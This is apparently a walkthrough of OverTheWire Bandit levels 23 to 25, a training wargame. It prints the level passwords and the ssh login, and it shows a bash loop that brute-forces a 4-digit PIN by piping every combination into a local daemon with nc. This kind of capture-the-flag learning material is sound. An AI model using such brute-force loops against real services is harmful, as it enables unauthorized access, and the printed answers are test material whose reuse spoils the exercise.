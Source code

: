 `ls -la`  
`cat password`
> VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

The password for level 23 is:  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 

**Bandit Level 24:**  
`ssh bandit24@bandit.labs.overthewire.org -p 2220`  
The password for this level:  
`VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`  

So, we have a daemon at port 30002. If we send the password of level 24 plus a 4 digit uknown code, it gives us back the password for the next level.

We have to automate this somehow, because we need to try every number from 1000 to 9999

First, make a directory with `mktemp -d` and `cd /tmp/{directoryname}`.  

Create an empty script, with `touch myscript.sh` and start editing it with `nano myscript.sh`.  

The script starts with a for loop from 1000 to 9999. It echoes out the password of the previous level, plus the current four digit number from 1000 to 9999.
It looks like this:

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1000  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1002  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1003  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1004  
...  
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999  

until we find the correct four digit number.


```
for i in {1000..9999}
do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```

We run the script, using the following command. First, the script's output is passed to 'nc localhost 30002', and the output of this is forwarded to 'results.txt'
`touch results.txt`  
`./myscript.sh | nc localhost 30002 > results.txt`  
It will take a while, to complete all requests. after it is finished, let's inspect the 'results.txt' file. It contains every response from 1000 to 9999,so we need to filter out all wrong answers.  
`cat results.txt | grep -v "Wrong"`  
> I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.  
> Correct!  
> The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d  

The password for level 25 is:  
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d  
